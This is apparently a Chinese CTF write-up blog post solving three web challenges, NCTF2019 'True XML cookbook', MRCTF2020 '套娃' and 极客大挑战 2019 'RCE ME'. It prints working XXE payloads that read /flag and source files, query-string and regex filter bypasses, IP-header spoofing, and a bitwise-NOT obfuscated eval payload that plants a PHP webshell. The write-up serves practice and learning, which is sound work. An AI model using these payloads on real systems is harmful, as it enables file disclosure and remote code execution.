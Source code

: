 ## [NCTF2019]True XML cookbook

题目已经说明了是xxe漏洞了

直接抓包

打exp

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
 <!ENTITY exp SYSTEM "file:///flag">
 ]>
<user><username>&exp;</username><password>aaaa</password></user>

```

发现报错

但是可以读取源码

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
 <!ENTITY exp SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
 ]>
<user><username>&exp;</username><password>aaaa</password></user>

```

但是没帮助

然后就不会了

看wp，wp提到可以直接打内网

那就读取/etc/hosts和/proc/net/arp文件

在/proc/net/arp文件中找到存活主机

bp爆破c段拿到flag。

## [MRCTF2020]套娃

注释处有代码

```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}

```

考到了字符串解析bypass

又学到了新东西

在解析某些字符时会将一些字符解析为下划线，因为在第一个if处限制了下划线

这里可以用%20

第二个if是要匹配开头和结尾

要传入的b_u_p_t不为23333，但是又要匹配到23333，所以可以用%0a表示字符结束但是传入

的b_u_p_t不为为23333

实现绕过

又给了个secerttw.php

果然是套娃

```
Flag is here~But how to get it?Local access only!
Sorry,you don't have permission! Your ip is :sorry,this way is banned! 
```

看来是要本地查看

打开源码发现了一大串的js编码

js解码后是post me Merak

在传入随便一个数字后得到源码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>  
```

第一个if简单，用data协议写入就行

源码直接说了flag在flag.php

直接读取发现还是没东西

看来是固死要本地读取

添加一个Client-ip:127.0.0.1

发现是乱码

原来还有个change函数

```php
function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
```

尝试反写

```php
<?php
function unchange($v){ 
    $re = '';
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return $re; 
}
$real_flag = unchange('flag.php');
echo base64_encode($real_flag);
?>//ZmpdYSZmXGI=
```

最后直接传入?2333=data:text/plain,todat is a happy day&file=ZmpdYSZmXGI=

再添加Client-ip:127.0.0.1

就读取到flag了。

## [极客大挑战 2019]RCE ME

```php
<?phperror_reporting(0);if(isset($_GET['code'])){      
$code=$_GET['code'];          
if(strlen($code)>40){                    
die("This is too Long.");                        
}          
if(preg_match("/[A-Za-z0-9]+/",$code)){                    
die("NO.");                        
}          
@eval($code);
}
else{      
highlight_file(__FILE__);
}// 
?>
```

打开就是源码

限制了40个字符

可以取反

先写个phpinfo

```php
<?php echo urlencode(~'phpinfo'); ?>
```

```bash
(~%8F%97%8F%96%91%99%90)();
```

可以执行

但是发现限制了好多函数

但是可以构造一个shell

```php
<?php 
error_reporting(0);
$a='assert';
$b=urlencode(~$a);
echo $b;
echo "<br>";
$c='(eval($_POST[cmd]))';
$d=urlencode(~$c);
echo $d;
?>
```

```php
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%90%9C%97%8A%C8%A2%D6%D6);
```

想直接用system读取，但是被ban了，用phpinfo测试马是否可用。

发现执行成功

用蚁剑成功连接

利用蚁剑自带的disable-function绕过功能成功读取flag。